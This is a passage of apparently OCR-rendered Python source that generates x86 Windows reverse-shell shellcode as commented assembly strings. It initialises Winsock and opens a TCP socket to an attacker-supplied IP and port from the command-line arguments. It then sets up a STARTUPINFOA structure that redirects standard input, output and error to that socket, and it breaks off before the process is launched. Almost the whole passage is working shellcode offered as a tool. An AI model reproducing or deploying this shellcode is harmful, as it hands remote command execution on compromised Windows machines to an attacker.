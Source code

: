 ```py
        "       xor eax, eax                    ;",  # Null EAX
        "       mov ax, 0x0202                  ;",  # Move version to AX
        "       push eax                        ;",  # Push wVersionRequired
        "       call dword ptr [ebp+0x1C]       ;",  # Call WSAStartup
        "   call_wsasocketa:                     ",
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push dwFlags
        "       push eax                        ;",  # Push g
        "       push eax                        ;",  # Push lpProtocolInfo
        "       mov al, 0x06                    ;",  # Move AL, IPPROTO_TCP
        "       push eax                        ;",  # Push protocol
        "       sub al, 0x05                    ;",  # Substract 0x05 from AL, AL = 0x01
        "       push eax                        ;",  # Push type
        "       inc eax                         ;",  # Increase EAX, EAX = 0x02
        "       push eax                        ;",  # Push af
        "       call dword ptr [ebp+0x20]       ;",  # Call WSASocketA
        "   call_wsaconnect:                     ",
        "       mov esi, eax                    ;",  # Move the SOCKET descriptor to ESI
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push sin_zero[]
        "       push eax                        ;",  # Push sin_zero[]
        f"      push {hex_ip(sys.argv[1])}      ;",  # Push address
        f"      mov ax, {hex_port(sys.argv[2])} ;",  # Move port
        "       shl eax, 0x10                   ;",  # Left shift EAX by 0x10 bytes
        "       add ax, 0x02                    ;",  # Add 0x02 (AF_INET) to AX
        "       push eax                        ;",  # Push sin_port & sin_family
        "       push esp                        ;",  # Push pointer to the sockaddr_in structure
        "       pop edi                         ;",  # Store pointer to sockaddr_in in EDI
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push lpGQOS
        "       push eax                        ;",  # Push lpSQOS
        "       push eax                        ;",  # Push lpCalleeData
        "       push eax                        ;",  # Push lpCalleeData
        "       add al, 0x10                    ;",  # Set AL to 0x10
        "       push eax                        ;",  # Push namelen
        "       push edi                        ;",  # Push *name
        "       push esi                        ;",  # Push s
        "       call dword ptr [ebp+0x24]       ;",  # Call WSAConnect
        "   create_startupinfoa:                 ",
        "       push esi                        ;",  # Push hStdError
        "       push esi                        ;",  # Push hStdOutput
        "       push esi                        ;",  # Push hStdInput
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push lpReserved2
        "       push eax                        ;",  # Push cbReserved2 & wShowWindow
        "       mov al, 0x80                    ;",  # Move 0x80 to AL
        "       xor ecx, ecx                    ;",  # Null ECX
        "       mov cl, 0x80                    ;",  # Move 0x80 to CX
        "       add eax, ecx                    ;",  # Set EAX to 0x100
        "       push eax                        ;",  # Push dwFlags
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push dwFillAttribute
        "       push eax                        ;",  # Push dwYCountChars
        "       push eax                        ;",  # Push dwXCountChars
        "       push eax                        ;",  # Push dwYSize
        "       push eax                        ;",  # Push dwXSize
        "       push eax                        ;",  # Push dwY
        "       push eax                        ;",  # Push dwX
        "       push eax                        ;",  # Push lpTitle
        "       push eax                        ;",  # Push lpDesktop
        "       push eax                        ;",  # Push lpReserved
        "       mov al, 0x44                    ;",  # Move 0x44 to AL
        "       push eax                        ;",  # Push cb
```